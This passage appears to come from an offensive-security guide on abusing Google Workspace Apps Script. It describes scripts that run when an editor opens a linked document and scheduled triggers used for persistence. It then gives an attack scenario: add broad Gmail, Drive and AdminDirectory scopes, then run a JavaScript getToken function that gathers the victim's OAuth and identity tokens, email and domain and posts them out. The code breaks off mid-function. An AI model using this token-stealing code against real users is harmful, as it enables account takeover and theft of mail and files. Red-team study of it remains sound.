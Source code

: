 # GWS - App Scripts

## App Scripts

App Scripts is **code that will be triggered when a user with editor permission access the doc the App Script is linked with** and after **accepting the OAuth prompt**.\
They can also be set to be **executed every certain time** by the owner of the App Script (Persistence).

### Create App Script

There are several ways to create an App Script, although the most common ones are f**rom a Google Document (of any type)** and as a **standalone project**:

<details></details>

<details></details>

<details></details>

<details></details>

<details></details>

## App Script Scenario 

### Create Google Sheet with App Script

Start by crating an App Script, my recommendation for this scenario is to create a Google Sheet and go to **`Extensions > App Scripts`**, this will open a **new App Script for you linked to the sheet**.

### Leak token

In order to give access to the OAuth token you need to click on **`Services +` and add scopes like**:

- **AdminDirectory**: Access users and groups of the directory (if the user has enough permissions)
- **Gmail**: To access gmail data
- **Drive**: To access drive data
- **Google Sheets API**: So it works with the trigger

To change yourself the **needed scopes** you can go to project settings and enable: **`Show "appsscript.json" manifest file in editor`.**

```javascript
function getToken() {
  var userEmail = Session.getActiveUser().getEmail()
  var domain = userEmail.substring(userEmail.lastIndexOf("@") + 1)
  var oauthToken = ScriptApp.getOAuthToken()
  var identityToken = ScriptApp.getIdentityToken()

  // Data json
  data = {
    oauthToken: oauthToken,
    identityToken: identityToken,
    email: userEmail,
    domain: domain,
  }

  // Send data
  makePostRequest(data)

  // Use the APIs, if you don't even if the have configured them in appscript.json the App script won't ask for permissions
```